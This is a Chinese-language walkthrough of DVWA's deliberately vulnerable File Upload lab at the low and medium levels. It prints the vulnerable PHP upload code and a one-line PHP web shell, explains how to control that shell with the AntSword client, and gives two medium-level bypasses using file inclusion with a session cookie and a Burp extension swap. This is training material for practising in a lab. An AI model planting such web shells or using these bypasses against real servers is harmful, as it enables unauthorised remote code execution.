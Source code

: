 <center>File Upload文件上传</center>





[toc]







## File Upload文件上传

> 文件上传







### 1. low

> 低级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

> 中国蚁剑

```shell
# 下载
wget https://github.com/AntSwordProject/AntSword-Loader/releases/download/4.0.3/AntSword-Loader-v4.0.3-linux-x64.zip

# 解压
unzip AntSword-Loader-v4.0.3-linux-x64.zip

# 运行
./AntSword
```

> 没有做任何过滤，上传`一句话木马`

```php
<?php eval($_POST['cmd']); ?>
```

> 蚁剑连接:

```shell
url  =  木马地址
密码  =  cmd
```





### 2. medium

> 中级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

```

> 对上传文件进行限制。

* 方法一：用文件包含的漏洞+ 文件上传

```shell
1. burp 获取cookie 文件包含 填入 蚁剑中
PHPSESSID=5skbhhtisu1kf4vfe8jvh4a2l5; security=high

2. 输入url, low级别上传的木马
http://192.168.0.111:8000/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/info.php

3. 密码
cmd

4. 连接成功。
```

方法二：

```shell
1. 修改木马为 .jpg  

2. 打开burp,文件改为2.php

3. 文件上传成功，蚁剑连接。
```















